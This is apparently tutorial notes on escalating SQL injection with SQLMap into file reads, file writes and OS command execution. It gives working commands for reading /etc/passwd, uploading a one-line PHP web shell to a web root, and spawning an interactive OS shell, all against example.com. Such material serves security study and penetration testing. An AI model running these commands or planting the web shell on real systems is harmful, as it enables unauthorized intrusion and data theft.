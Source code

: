 SQLMap can escalate SQL injection attacks to gain **file system access** or even **command execution** on the underlying operating system—depending on privileges.

---

### **1. File Read / Write via SQL Injection**

####  **Reading Files**

- File read access depends on:
    - **DBMS support** (e.g., MySQL’s `LOAD DATA LOCAL INFILE`)
    - **Privileges** of the DB user
    - **DBA rights** (not always required but helps)

Check for DBA Privileges:
```bash
sqlmap -u "http://example.com/?id=1" --is-dba
```

Read Local Files (e.g., /etc/passwd):
```bash
sqlmap -u "http://example.com/?id=1" --file-read="/etc/passwd"
```

#### **Writing Files**

- Modern DBMSes **restrict file writing** to avoid exploitation.
- Requirements:
    - **DBA privileges**
    - **Writable directory** (e.g., `/var/www/html`)
    - `secure_file_priv` must allow writing (in MySQL)

**Steps:**
1. Prepare a shell:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
2. Upload the file:
```bash
sqlmap -u "http://example.com/?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"
```
3. Confirm remote access
```bash
curl http://example.com/shell.php?cmd=ls+-la
```

---

### **2. OS Command Execution**

SQLMap can **spawn an interactive shell** on the remote system if the conditions allow.

#### Basic usage:
```bash
sqlmap -u "http://example.com/?id=1" --os-shell
```

- SQLMap uses different techniques depending on DBMS:
    - Writes web shell
    - Uses **User Defined Functions (UDFs)** in MySQL
    - Uses **xp_cmdshell** in MSSQL

#### If output fails (e.g., with UNION-based SQLi), specify a technique:
```bash
sqlmap -u "http://example.com/?id=1" --os-shell --technique=E
```
#### Prompts during `--os-shell`:

- **Language** (default: PHP)
- **Web root directory** (auto-detect via common locations)

 Add `--batch` to skip prompts and use defaults.

---

### **Summary: Key SQLMap Options for OS Exploitation**

|**Option**|**Function**|
|---|---|
|`--is-dba`|Check if current DB user has DBA privileges|
|`--file-read=PATH`|Read remote file to local system|
|`--file-write=FILE`|Write local file to remote system|
|`--file-dest=PATH`|Specify destination path for uploaded file|
|`--os-shell`|Spawn interactive remote OS shell|
|`--technique=E`|Use specific SQLi technique (e.g., Error-based)|
|`--batch`|Auto-confirm prompts with default answers|

